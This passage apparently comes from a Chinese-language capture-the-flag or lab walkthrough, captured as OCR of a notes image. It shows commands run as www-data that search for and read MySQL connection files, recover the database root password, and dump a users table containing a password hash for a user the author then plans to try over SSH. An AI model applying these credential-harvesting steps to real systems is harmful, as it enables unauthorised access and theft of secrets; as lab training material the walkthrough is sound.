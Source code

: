        // Set the database access information as constants:
        
        DEFINE ('DB_USER', 'root');
        DEFINE ('DB_PASSWORD', 'goodday');
        DEFINE ('DB_HOST', 'localhost');
        DEFINE ('DB_NAME', 'ch16');
        
        // Make the connection:
        
        $dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );
        ```
        
    - 尝试登录，登陆失败，继续寻找mysql连接配置文件
        
        根据上面发现的连接配置的文件来寻找
        
        ```sql
        www-data@web:/var/www$ find / -name '*mysqli_connect*' 2>/dev/null
        /var/mysqli_connect.php
        /var/www/mysqli_connect.php
        ```
        
        ```sql
        www-data@web:/var/www$ cat /var/mysqli_connect.php 
        <?php # Script 8.2 - mysqli_connect.php
        
        // This file contains the database access information.
        // This file also establishes a connection to MySQL
        // and selects the database.
        // Set the database access information as constants:
        
        DEFINE ('DB_USER', 'root');
        DEFINE ('DB_PASSWORD', 'root@ISIntS');
        DEFINE ('DB_HOST', 'localhost');
        DEFINE ('DB_NAME', 'ch16');
        
        // Make the connection:
        $dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );
        ?>
        ```
        
        获得密码`root@ISIntS` ，尝试登陆成功
        
    - 查询数据，发现一个用户`Dan` ，尝试`ssh`登录
        
        ```sql
        mysql> select * from users;
        select * from users;
        +---------+------------+-----------+------------------+------------------------------------------+------------+----------------------------------+---------------------+
        | user_id | first_name | last_name | email            | pass                                     | user_level | active                           | registration_date   |
        +---------+------------+-----------+------------------+------------------------------------------+------------+----------------------------------+---------------------+
        |       1 | Dan        | Privett   | admin@isints.com | c2c4b4e51d9e23c02c15702c136c3e950ba9a4af |          0 | NULL                             | 2011-05-07 17:27:01 |
        +---------+------------+-----------+------------------+------------------------------------------+------------+----------------------------------+---------------------+
        2 rows in set (0.00 sec)
        ```
        